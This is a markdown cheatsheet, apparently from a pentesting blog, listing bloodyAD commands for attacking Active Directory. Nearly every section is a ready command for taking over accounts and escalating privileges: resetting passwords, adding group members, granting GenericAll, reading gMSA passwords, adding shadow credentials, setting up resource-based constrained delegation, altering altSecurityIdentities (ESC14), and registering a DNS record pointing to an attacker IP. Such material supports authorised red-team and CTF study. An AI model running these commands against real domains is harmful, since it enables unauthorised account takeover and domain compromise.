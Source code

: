 ```yaml
---
title: BloodyAD Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [BloodyAD]
---
```

# BloodyAD Cheatsheet

# Installation
## Using uv
```bash
uv tool install bloodyAD
```
## Using pipx
```bash
pipx install bloodyAD
```
# Usage
## Retrieve User Information
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
## Add User To Group
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
## Change Password
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
## Give User GenericAll Rights
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
## WriteOwner
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
## ReadGMSAPassword
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
## Enable a Disabled Account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
## Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
## Modify UPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
## MachineAccountQuota

Enumerate MachineAccountQuota
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
## Modify mail
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
## Modify the altSecurityIdentities attribute (ESC14B)
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
## Find Writable Attributes
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
## Shadow Credentials
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
``` 
## WriteSPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
## Find Deleted Objects
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
## Extended Search Operations
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```
example:
```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
## Restore a deleted object
```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```
## Create a new computer account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```
## Add Resource Based Constrained Delegation
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```
## Register a DNS Record
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add dnsRecord $record_name $attacker_ip
```

## Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p` :hash
- Specify format for ‘–password’ or ‘-k ‘ using `-f`, e.g. `-f rc4`

## Resources

- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/

